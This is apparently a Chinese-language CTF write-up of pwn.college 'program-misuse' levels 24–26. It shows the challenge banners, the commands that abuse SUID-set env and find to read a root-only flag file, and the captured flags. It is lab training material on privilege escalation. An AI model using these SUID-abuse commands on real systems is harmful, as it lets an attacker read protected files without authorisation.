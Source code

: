 **小总结：倒是知道了很多以前不知道的工具。**
## level24 Enables you to read flags by making them execute other commands!
```
sh hacker@program-misuse-level-24:~$ sh file.sh
Welcome to ./babysuid_level24!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/env.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level24) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/env!
```
开始有意思起来了。
```
hacker@program-misuse-level-24:~$ env cat /flag
pwn.college{8rPxiO1f2sBGHUvcT83glFWNSpM.0lN2EDL2QjMyMzW}
hacker@program-misuse-level-24:~$
```
env可以给其他的程序赋权？感觉是这个意思，当然出题人想要的意思应该是需要先设一个shell，然后执行。
## level25 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-25:~$ sh file.sh
Welcome to ./babysuid_level25!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/find.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level25) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/find!
```
使用find
```
hacker@program-misuse-level-25:~$ find / -type f -name "flag" -exec cat {} \;
pwn.college{Uomlfru_u94ZuszsvlNzA0n6x39.01N2EDL2QjMyMzW}
hacker@program-misuse-level-25:~$
```
这里需要考虑的是find只是找到，如何读取？

- 使用`-exec`

## level26 Enables you to read flags by making them execute other commands!
```
hacker@program-misuse-level-26:~$ sh file.sh
Welcome to ./babysuid_level26!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/make.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level26) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/make!
```